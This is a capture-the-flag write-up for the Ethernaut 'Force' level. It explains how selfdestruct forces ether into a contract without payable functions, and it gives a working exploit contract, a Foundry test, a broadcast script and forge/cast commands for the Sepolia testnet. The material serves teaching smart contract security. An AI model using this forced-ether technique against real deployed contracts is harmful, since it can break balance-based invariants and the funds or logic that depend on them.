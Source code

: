 ## 👾 07. Force

<br>


### tl; dr

<br>


* this challenge exploits smart contract invariants, and how total balance is not a good invariant.
  - contract invariants are properties of the program state that are expected always to be true. for instance, the value of `owner` state variable, the total token supply, etc., should always remain the same.
  - a state in the blockchain is considered valid when the contract-specific invariants hold true.

<br>

* in this challenge, we need to find a way to forcely send `ether` to a contract that does not explicitly contain a `payable`, a `receive()`, or a `fallback()` function.

<br>



* there are two ways this can be done when the destination contract is already deployed:
   - by using `coinbase` transactions or block rewards (like MEV searchers and validators rewards)
  - by leveraging (**[the now being deprecated](https://ethereum-magicians.org/t/deprecate-selfdestruct/11907)**) `selfdestruct(address)`, which allows contracts to receive `ether` from other contracts. 
    - all the `ether` stored in the calling contract is transferred to `address` (and since this happens at the EVM level, there is no way for the receiver to prevent it). 
    - `selfdestruct()` can be considered a garbage collection to clean up voided contracts (and it consumes negative gas).

<br>


<br>
  
<p align="center">
<img width="300" src="https://github.com/go-outside-labs/ethernaut-foundry-detailed-solutions-sol/assets/138340846/06c0c5bb-8c1f-49a4-a2a1-561d5f1fa74b">
</p>




<br>

```solidity
contract Force {/*

                   MEOW ?
         /\_/\   /
    ____/ o o \
  /~____  =ø= /
 (______)__m_m)

*/}
```


<br>

---

### discussion

<br>

* `Force` contract has no code and its ABI is empty, so we need to figure out how we can send `ether` to it.

<br>

* as mentioned above, we can use `selfdestruct(address)`, a function used to delete a contract from the blockchain by removing its code and storage.

<br>



----

### solution

<br>

* we craft a very simple exploit, located at `src/07/ForceExploit.sol`:

<br>

```solidity
contract ForceExploit {
    
    constructor(address payable instance) payable {
        selfdestruct(instance);
    }
}
```

<br>

* and test it with `test/07/Force.t.sol`:

<br>

```solidity
contract ForceTest is Test {

    address payable instance = payable(vm.addr(0x10053)); 
    address hacker = vm.addr(0x1337); 

    function setUp() public {
    
        vm.prank(instance);
        vm.deal(hacker, 1 ether);
    }

    function testForceHack() public {

        vm.startPrank(hacker);
        assert(instance.balance == 0);
        ForceExploit exploit = new ForceExploit{value: 0.0005 ether}(instance);
        assert(instance.balance != 0);
        vm.stopPrank();
        
    }
}
```

<br>

* running:

<br>

```shell
> forge test --match-contract ForceTest -vvvv    
```



<br>

* then, we submit the solution with `script/07/Force.s.sol`:

<br>

```solidity
contract Exploit is Script {

    ForceExploit exploit;
    address payable instance = payable(vm.envAddress("INSTANCE_LEVEL7"));     
    address hacker = vm.rememberKey(vm.envUint("PRIVATE_KEY")); 
    uint256 immutable initialDeposit = 0.0005 ether;  
        
    function run() external {
        vm.startBroadcast(hacker);
        exploit = new ForceExploit{value: initialDeposit}(instance);
        vm.stopBroadcast();
    }
}
```

<br>

* by running:

<br>

```shell
> forge script ./script/07/Force.s.sol --broadcast -vvvv --rpc-url sepolia
```

<br>


---

### alternative solution using `cast`

<br>

* deploy the exploit with:

<br>

```shell
> forge create src/07/ForceExploit.sol:Contract --constructor-args=<level address> --private-key=<private-key> --rpc-url=<sepolia url> 
```

<br>

* then call the contract with:

<br>

```shell
> cast send <deployed address> --value 0.0005ether --private-key=<private-key> --rpc-url=<sepolia url> 
```

<br>

----

### pwned...


<br>

  
<p align="center">
<img width="400" src="https://github.com/go-outside-labs/ethernaut-foundry-writeups-sol/assets/138340846/ba3f82a3-00c0-43f9-a423-588d7f6e4c70">
</p>



<br>


